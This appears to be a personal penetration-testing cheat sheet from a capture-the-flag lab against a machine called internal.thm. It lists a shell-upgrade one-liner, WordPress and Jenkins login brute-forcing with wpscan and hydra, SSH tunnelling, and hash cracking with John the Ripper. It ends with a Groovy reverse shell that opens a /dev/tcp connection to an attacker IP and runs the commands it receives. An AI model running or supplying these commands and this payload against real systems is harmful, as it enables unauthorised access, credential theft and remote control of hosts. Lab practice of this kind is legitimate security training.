 ### PYTHON BEAUTIFUL SHELL:
- python -c 'import pty; pty.spawn("/bin/bash")'

### WPSCAN
- wpscan --url http://internal.thm/blog/ --usernames admin --passwords /home/phulelouch/Downloads/SecLists/Passwords/darkweb2017-top10000.txt

### SSH TUNNLING
If you have SSH access to the machine running Jenkins, you could create an SSH tunnel. This will allow you to access the service as if you were on the same network. Here's an example command:
- ssh -L <your_machine_port>:<ip_you_want_to_access>:<port_want_to_access> user@host
- ssh -L 8080:172.17.0.2:8080 aubreanna:@10.10.107.36

### HYDRA
- Hydra http-post-form: hydra -l admin -P /usr/share/wordlists/rockyou.txt -t 16 -s 8080 localhost http-post-form "/j_acegi_security_check:j_username=admin&j_password=^PASS^&from=%2F&Submit=Sign+in:Error" -vV -f

### JOHN THE RIPPER
- For phpmyadmin: john --format=phpass --wordlist=/usr/share/wordlists/rockyou.txt hash.txt

### Groovy

r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.8.50.72/5555;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()

